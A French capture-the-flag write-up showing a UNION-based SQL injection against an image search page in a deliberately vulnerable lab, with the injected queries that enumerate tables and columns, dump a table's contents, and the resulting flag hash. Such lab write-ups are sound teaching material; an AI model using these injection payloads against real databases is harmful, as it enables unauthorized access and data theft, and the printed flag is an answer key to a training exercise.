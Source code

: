 # Member SQL injection

## Identification

Sur /index.php?page=searchimg, on peut rechercher les images par id. En testant on se rend compte que l'input n'est pas protégé et qu'on peut injecter du sql dans le where.
La requête SQL ressemble à ça: `SELECT title, url FROM list_images where id = $id`

## Exploit

### Récupération des tables

On reprend les même requêtes que pour les users et on commence par récupérer toute les tables présentes dans la database:
Input : `1 UNION SELECT 1, table_name FROM information_schema.tables`
Le `1,` ici permet simplement de récupérer autant de columns que dans le SELECT précédant (le SELECT du code d'index.php), c'est à dire 2 colonnes.
Output:
```
ID: 1 UNION SELECT 1, table_name FROM information_schema.tables 
Title: Nsa
Url : https://www.nsa.org/img.jpg
ID: 1 UNION SELECT 1, table_name FROM information_schema.tables 
Title: CHARACTER_SETS
Url : 1
ID: 1 UNION SELECT 1, table_name FROM information_schema.tables 
Title: COLLATIONS
Url : 1
ID: 1 UNION SELECT 1, table_name FROM information_schema.tables 
Title: COLLATION_CHARACTER_SET_APPLICABILITY
Url : 1

ETC...
```
Nous retrouvons le nom des tables dans la colonne `Title`
On remarque que la table `list_images` est présente, et nous allons nous conentrer dessus

### Récupération des colonnes de la table `list_images`

Il faut maintenant récupérer les colonnes de la table `list_images`:
Input: `1 union select table_name, column_name from information_schema.columns`
(Ici, pas besoin du `1,` car nous récupérons déjà 2 colonnes)
Output (avec un ctrl+f sur "users"):
```
ID: 1 union select table_name, column_name from information_schema.columns 
Title: id
Url : list_images
ID: 1 union select table_name, column_name from information_schema.columns 
Title: url
Url : list_images
ID: 1 union select table_name, column_name from information_schema.columns 
Title: title
Url : list_images
ID: 1 union select table_name, column_name from information_schema.columns 
Title: comment
Url : list_images
```
Pareil ici, on récupère toutes les colonnes de la table `list_images` dans `Title`.

### Récupération de toutes les infos utilisateurs

Il nous suffit maintenant de récupérer toute les données contenues dans la table `list_images`.
Comme nous récupérerons ici beaucoup de colonnes et que nous ne pouvons normalement qu'en récuperer que 2 avec le `UNION`, on doit utiliser un `concat()` pour concaténer la sortie de plusieurs colonnes en une seule. Pour la clareté, on ajouter un `\n`  entre chaque colonne:
Input: `1 union select null, concat(url, 0x0a, title, 0x0a, comment) from list_images`
Output:
```
ID: 1 union select null, concat(url, 0x0a, title, 0x0a, comment) from list_images 
Title: borntosec.ddns.net/images.png
Hack me ?
If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url :

ID: 1 union select null, concat(url, 0x0a, title, 0x0a, comment) from list_images 
Title: https://www.h4x0r3.0rg/tr0ll.png
tr00l
Because why not ?
Url : 

ETC...
```

On remarque le commentaire de l'image qui a pour titre `Hack me ?`

### Récupérer le flag

Une fois reverse `1928e8083cf461a51303633093573c46`, nous donne `albatroz`
Il nous suffit de le lower puis de le sha256 : `sha256(albatroz) = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

